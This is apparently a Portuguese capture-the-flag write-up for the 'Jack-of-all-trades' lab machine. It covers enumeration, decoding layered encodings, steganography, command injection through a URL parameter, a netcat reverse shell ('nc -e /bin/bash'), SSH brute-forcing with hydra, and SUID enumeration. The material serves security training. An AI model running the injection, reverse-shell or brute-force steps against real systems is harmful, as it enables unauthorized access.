# _**Jack-of-all-trades**_


## _**Enumeração**_
Vamos começar com um scan nmap
> ```bash
> nmap -A -T5 [ip_address]
> ```


Tentando acessar o site manualmente em http://[ip_address]:22, mas não funciona  
Vamos tentar buscar a página através do comando ```curl```
> ```bash
> curl [ip_address]:22
> ```


## _**Ganhando acesso**_
Temos um texto em <mark>base64</mark> exposto na página
Traduzindo com o comando abaixo, temos outra mensagem, uma senha
* password: <mark>u?WtKSraq</mark>
> ```bash
> echo ‘[frase_encontrada]’ | base64 -d
> ```


Não podemos ignorar o nome também encontrado, <mark>Jonhy</mark>, pode ser útil  
Este nome está relacionado com _crypto jobhunting! His encoding systems are amazing_  
Outras informações encontradas no comando ```curl``` são:
* <mark>/recovery.php</mark>
* <mark>/assets/jackinthebox.jpg</mark>

Vamos buscar novamente com o comando ```curl```
> ```bash
> curl http://[ip_address]:22/recovery.php
> ```


Parece que temos novamente outra mensagem  
E parece ser uma página de login  
Vamos tentar descobrir o que essa mensagem gigante é  
Parece ser base 32  
Vamos decodificar com o comando ```base32```
> ```bash
> echo '[string]' | base32 -d
> ```


Um monte de números e letras  
Para (novamente) descobrirmos do que se trata, vamos ao gpt  
Ele nos diz que a string de números e letras é <mark>hexadecimal</mark> e traduz para nós  
Novamente codificado, desta vez ROT13  
Ele realiza a tradução e temos uma frase e também temos um link  



Um link que leva a nada  
Mas sabemos que podemos tentar login com o usuário <mark>jack</mark> (possível usuário) e a senha descoberta anteriormente através do comando ```curl```
> ```bash
> curl -X POST http://[ip_address]/recovery.php \ -d "user=jack&pass=u?WtKSraq"
> ```

Não tivemos nenhum retorno útil  
A busca continua  
Outra ideia é realizar o download das imagens encontradas na página e tentar algo com a ferramenta <mark>steghide</mark>  
Baixamos <mark>jack.jpg</mark>, <mark>stego.jpg</mark> e <mark>header.jpg</mark> com o comando ```curl```  
> ```bash
> curl http://[ip_address]:22/jackinthebox.jpg
> ```
> ```bash
> curl http://[ip_address]:22/stego.jpg
> ```
> ```bash
> curl http://[ip_address]:22/header.jpg
> ```

Temos o seguinte resultado:  

  

Sem informações a mais, fui buscar ajuda  
O link <mark>bit.ly</mark> levava a uma página sobre a _**Stegosauria**_, dica que de havia algo nas imagens  
Fui novamente com a ferramenta <mark>steghide</mark>, porém na imagem _header_ e com a senha <mark>u?WtKSraq</mark>, e deu certo!  
_**Acredito ter digitado algo errado da última vez**_  

  

Apesar de termos usuário e senha para _**recovery.php**_, um comando ```curl``` não retornará o que queremos  
Então, fui buscar como burlar o bloqueio da porta 22  
Cheguei ao resultado que, alterando _network.security.ports.banned.override_ para a porta 22, poderia acessar a página  
Dito e feito, temos a página e tentativa de login  

  

_GET_ é uma requisição _HTTP_  
_cmd_ é o prompt do _windows_  
Pode ser que o navegador aceite comandos, vamos testar!  

  

Deu certo!  
Vamos investigar navegando por diretórios  
Encontramos o seguinte arquivo: <mark>jacks_password_list</mark>  

  

Por aceitar comandos, podemos criar uma shell através do netcat  
Primeiro, vamos escutar com o comando abaixo
> ```bash
> nc -lnvp 1234
> ```

Após, vamos inserir na url o seguinte trecho: ../index.php?cmd=nc -e /bin/bash [vpn_ip] 80 [port]  

  

Com a conexão bem sucedida, vamos buscar _jacks_password_list_  
Copiando e colando em um arquivo _.txt_, vamos usar ele para realizar um ataque de força bruta contra a conexão ssh com o comando abaixo  
> ```bash
> hydra -l jack -P ../jacks_passwd.txt -s 80 [ip_address] ssh
> ```


Vamos realizar um login via ssh  

  

Login feito com sucesso!
Temos uma imagem  

  

Vamos extrair ela para nosso computador com ```scp```
> ```bash
> scp -P 80 jack@[ip_address]:/home/jack/user.jpg user.jpg
> ```


Abrindo a imagem, temos nossa primeira _flag_

## _**Escalando privilégios**_
Agora, para a segunda flag, com a dica, sabemos que ela está em _/root/root.txt_  
Vamos tentar escalar privilégios  
Através dos comandos abaixo, verificamos SUID e permissões de jack
> ```bash
> sudo -l
> ```
> ```bash
> find / -type f -user root -perm -u=s 2>/dev/null
> ```
> ```bash
> find / -perm /4000 2>/dev/null
> ```
O comando <mark>/usr/bin/strings</mark> é uma ferramenta usada para procurar e exibir strings legíveis em arquivos binários  
Ele filtra os dados no arquivo, mostrando apenas sequências de caracteres que podem ser interpretadas como texto, o que pode ser útil para descobrir informações como senhas, mensagens ou outros dados ocultos em arquivos binários ou de sistema  


